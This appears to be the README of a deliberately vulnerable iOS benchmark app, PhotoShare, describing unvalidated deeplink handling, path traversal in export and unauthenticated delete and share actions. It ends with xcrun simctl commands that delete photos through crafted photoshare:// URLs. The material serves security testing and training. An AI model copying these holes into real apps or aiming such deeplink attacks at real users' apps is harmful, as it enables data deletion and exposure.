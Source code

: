 # oxo-ios-ben5: iOS Improper Deeplink Validation

## Challenge Details

### Description
PhotoShare is a comprehensive photo management and sharing application for iOS that allows users to organize, share, and manage their personal photo collections. The app features intuitive photo browsing, album creation, sharing capabilities, and social features for connecting with friends and family.

The application includes:
- Photo gallery with smart organization and tagging
- Private and public album management
- Advanced sharing features with contact integration
- User profile management with activity tracking
- Cloud synchronization and backup capabilities
- Custom deeplink support for quick actions

### Vulnerability Type and Category
- **Type:** Improper Deeplink Validation / Insufficient Input Validation
- **Category:** Platform Security (OWASP Mobile M1 - Improper Platform Usage) / Improper Input Validation (CWE-20)

### Weakness (CWE)
- **CWE-20:** Improper Input Validation
- **CWE-200:** Information Exposure
- **CWE-22:** Path Traversal (in export functionality)

### Platform
iOS (Swift/SwiftUI)

### Difficulty
Medium

## Vulnerability Overview
The PhotoShare application registers a custom URL scheme `photoshare://` and implements deeplink handlers that process various photo management actions. However, the application fails to properly validate deeplink parameters, authenticate the source of deeplinks, or verify user authorization before executing sensitive operations.

**Key Vulnerability Points:**
- No parameter sanitization for photo IDs and file paths
- Missing authentication checks for sensitive deeplink actions
- Automatic execution of share, delete, and export operations
- Path traversal vulnerability in export functionality
- No validation of recipient email addresses in sharing

## Exploitation Example (Deletion)

```bash
# Delete photos using image names (confirmed working)
xcrun simctl openurl booted "photoshare://delete?photo_id=mountain_view"
xcrun simctl openurl booted "photoshare://delete?photo_id=beach_sunset"
xcrun simctl openurl booted "photoshare://delete?photo_id=wedding_photo"
xcrun simctl openurl booted "photoshare://delete?photo_id=family_dinner"

# Delete using photo titles (URL encoded)
xcrun simctl openurl booted "photoshare://delete?photo_id=Beach%20Sunset"
xcrun simctl openurl booted "photoshare://delete?photo_id=Wedding%20Photo"
```